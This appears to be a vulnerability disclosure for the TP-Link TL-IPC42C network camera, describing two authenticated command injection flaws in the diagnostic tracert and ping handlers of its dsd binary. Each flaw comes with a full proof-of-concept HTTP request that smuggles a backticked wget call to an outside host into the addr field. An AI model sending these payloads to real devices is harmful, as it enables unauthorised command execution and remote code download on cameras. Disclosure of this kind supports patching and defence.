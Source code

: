 ## TP-Link TL-IPC42C RCE

vendor name:TP-Link

model:TL-IPC42C

version: V4.0_20211227_1.0.16

firmware download:https://security.tp-link.com.cn/service/detail_download_9856.html

![image](https://github.com/user-attachments/assets/9885cb2e-1868-4b76-8ffb-562c6cdb8e42)


![image](https://github.com/user-attachments/assets/5d000752-4ef9-42b3-b919-3ac0185900ac)




TP-Link TL-IPC42C is a network camera produced by TP-Link. Due to the lack of malicious code verification on both the frontend and backend, command execution vulnerabilities occurred.

The hidden ConfSysSettingDiagnostic.htm page was found in the web directory of the firmware.
![image](https://github.com/user-attachments/assets/8b3c3ed5-e2fe-4ec0-9e1d-a16312e9acdf)


By capturing and modifying http packets, you can access this page.
![image](https://github.com/user-attachments/assets/1262f306-5c7a-4774-b052-9ebbcf8d2fcf)


#### vulnerability 1    tracert

The vulnerability requires login credentials `stok`

vulnerability 1 appears in the sub_2D85A function of the dsd binary file

![image](https://github.com/user-attachments/assets/2650aacf-010d-499b-b082-a4c22e3ae6c6)


jso_obj_get_string_origin takes the addr from the tracert variable transferred by http service(httpd passes the request parameters to dsd ),concatenates it into the variable s with snprintf, and finally the system executes the s string.

##### **POC**

![image](https://github.com/user-attachments/assets/1f39b15e-cbc8-48b0-b9e1-e9c69980ce1b)


![image](https://github.com/user-attachments/assets/58fc4053-21f4-4947-a182-ab1bcfae2edd)

```
POST /stok=$your_stok_value_here/ds HTTP/1.1

Host: 192.168.2.229

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 130

Origin: http://192.168.2.229

Connection: close

Referer: http://192.168.2.229/



{"diagnose":{"start":{"diag_type":"tracert","addr":"www.baidu.com`wget http://192.168.2.208:8000/aa`","hops":"20"}},"method":"do"}
```





#### vulnerability 2    ping

The vulnerability requires login credentials `stok`

Vulnerability 2 appears in the sub_2D85A function of the dsd binary file

![image](https://github.com/user-attachments/assets/16378359-1965-4d06-b4c5-6abe23148969)


jso_obj_get_string_origin takes the addr from the ping variable transferred by http service(httpd passes the request parameters to dsd)，v26 received the value of addr

taint propagation process: v26-- >v27---->s1---->s-- >sytstem

snprintf concatenates the variable s1 containing the malicious code into s, and the system executes the s string.

##### POC

![image](https://github.com/user-attachments/assets/c79eb22c-b7fc-4f14-9d5a-531c1a682bf1)

![image](https://github.com/user-attachments/assets/08610698-b05f-4537-8ba6-fbdce5de6bdd)




```
POST /stok=$your_stok_value_here/ds HTTP/1.1

Host: 192.168.2.229

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/json; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 151

Origin: http://192.168.2.229

Connection: close

Referer: http://192.168.2.229/



{"diagnose":{"start":{"diag_type":"ping","addr":"www.baidu.com`wget http://192.168.2.208:8000/aa`","num":"4","size":"64","timeout":"1"}},"method":"do"}
```

